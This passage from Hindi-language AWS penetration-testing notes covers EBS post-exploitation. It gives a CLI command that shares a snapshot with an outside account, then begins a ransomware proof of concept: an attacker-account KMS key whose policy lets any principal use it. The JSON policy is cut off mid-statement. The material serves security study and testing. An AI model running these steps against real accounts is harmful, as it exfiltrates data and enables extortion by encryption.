 {% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### EBS Ransomware PoC

एक प्रमाणित अवधारणा जो S3 पोस्ट-एक्सप्लोइटेशन नोट्स में प्रदर्शित रैंसमवेयर प्रदर्शन के समान है। KMS को Ransomware Management Service के लिए RMS में बदल दिया जाना चाहिए, क्योंकि इसे विभिन्न AWS सेवाओं को एन्क्रिप्ट करने के लिए उपयोग करना कितना आसान है।

पहले 'हमलावर' AWS खाते से, KMS में एक ग्राहक प्रबंधित कुंजी बनाएं। इस उदाहरण के लिए, हम बस AWS को मेरे लिए कुंजी डेटा प्रबंधित करने देंगे, लेकिन एक वास्तविक परिदृश्य में, एक दुर्भावनापूर्ण अभिनेता AWS के नियंत्रण से बाहर कुंजी डेटा को बनाए रखेगा। कुंजी नीति को इस प्रकार बदलें कि किसी भी AWS खाता प्रिंसिपल को कुंजी का उपयोग करने की अनुमति हो। इस कुंजी नीति के लिए, खाते का नाम 'AttackSim' था और सभी पहुंच की अनुमति देने वाला नीति नियम 'Outside Encryption' कहा जाता है।
```
{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:root"
},
"Action": "kms:*",
"Resource": "*"
},
{
"Sid": "Allow access for Key Administrators",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Create*",
"kms:Describe*",
"kms:Enable*",
"kms:List*",
"kms:Put*",
"kms:Update*",
"kms:Revoke*",
"kms:Disable*",
"kms:Get*",
"kms:Delete*",
"kms:TagResource",
"kms:UntagResource",
"kms:ScheduleKeyDeletion",
"kms:CancelKeyDeletion"
],
"Resource": "*"
},
{
"Sid": "Allow use of the key",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
```